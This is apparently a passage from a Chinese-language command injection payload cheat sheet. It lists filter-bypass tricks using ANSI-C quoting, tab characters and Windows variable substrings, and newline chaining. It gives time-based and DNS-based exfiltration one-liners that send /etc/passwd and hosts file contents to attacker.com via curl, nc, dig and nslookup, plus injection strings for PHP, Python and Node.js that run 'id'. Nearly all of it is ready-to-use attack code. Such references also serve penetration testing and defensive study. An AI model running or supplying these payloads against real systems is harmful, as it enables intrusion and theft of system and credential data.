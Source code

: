 * ANSI-C引用

  ```powershell
  X=$'uname\x20-a'&&$X
  ```

* 制表符有时可以用作空格的替代。在ASCII中，制表符由十六进制值`09`表示。

  ```powershell
  ;ls%09-al%09/home
  ```

* 在Windows中，`%VARIABLE:~start,length%`是用于环境变量子字符串操作的语法。

  ```powershell
  ping%CommonProgramFiles:~10,-18%127.0.0.1
  ping%PROGRAMFILES:~10,-5%127.0.0.1
  ```

### 使用换行符绕过

命令也可以与换行符一起按顺序运行

```bash
original_cmd_by_server
```

## 数据外泄

### 基于时间的数据外泄

```bash
# Linux
cat /etc/passwd | while read line; do sleep 1; echo $line | curl -X POST --data-binary @- http://attacker.com/; done

# Windows
type C:\Windows\System32\drivers\etc\hosts | for /L %i in (1,1,1000) do @for /f "tokens=1,2 delims=:" %a in ('findstr /n ^^') do @(ping -n 1 -w 1 127.0.0.1 >nul & echo %b | nc -nv 192.168.1.100 80)
```

### 基于DNS的数据外泄

```bash
# Linux
data=$(cat /etc/passwd | base64 -w 0) && for i in $(seq 0 $((${#data}/4))); do dig @192.168.1.100 "$i.$(echo $data | cut -c $(($i*4+1))-$(($i*4+4))).attacker.com"; done

# Windows
for /f "tokens=*" %a in ('type C:\Windows\System32\drivers\etc\hosts') do start /b nslookup "%a".attacker.com 192.168.1.100
```

## 多语言命令注入

```bash
# PHP
'; system('id'); //
"; system('id'); //
`id`
$(id)

# Python
eval('import os; os.system("id")')
__import__('os').system('id')

# Node.js
require('child_process').exec('id')
```